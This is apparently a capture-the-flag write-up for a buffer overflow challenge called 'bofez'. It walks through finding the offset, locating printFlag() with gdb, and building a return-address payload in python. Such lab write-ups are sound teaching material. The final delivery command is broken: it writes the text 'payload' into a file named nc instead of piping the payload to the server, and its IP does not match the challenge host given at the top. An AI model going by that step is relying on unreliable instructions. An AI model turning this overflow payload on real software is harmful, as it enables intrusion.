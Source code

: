 # BOF
## Pwn

> Is the key the key?
>
> nc 159.89.194.7 1342

### Files
- bofez

### Analysis
The file provided is a linux binary for participants to test locally
The challenge name suggests that they should attempt a Buffer Overflow exploit.

### Solution
1. Finding the offset
   ```console
   root@mctf:~$ ./bofez
   ```
   Spam "A"s as input until there is a segmentation fault<br />
   In this challenge, the offset was 72
2. Finding the flag
   Upon disassembling the binary, the printFlag() function can be seen<br />
   ```console
   root@mctf:~$ gdb bofez
   ```
   To find the memory address of the printFlag() function, use ```info functions```<br />
   > printFlag() : 0x401192
3. Convert the memory address
   Convert the hexadecimal memory address to Little-Endian format<br />
   > \x92\x11\x40
4. Crafting the payload
   With the offset and memory address of the printFlag() function, craft the payload<br />
   ```console
   root@mctf:~$ python -c "print 'A' * 72 + '\x92\x11\x40'" > payload
   ```
   ```console
   root@mctf:~$ echo payload > nc 128.199.77.173 1342
   ```
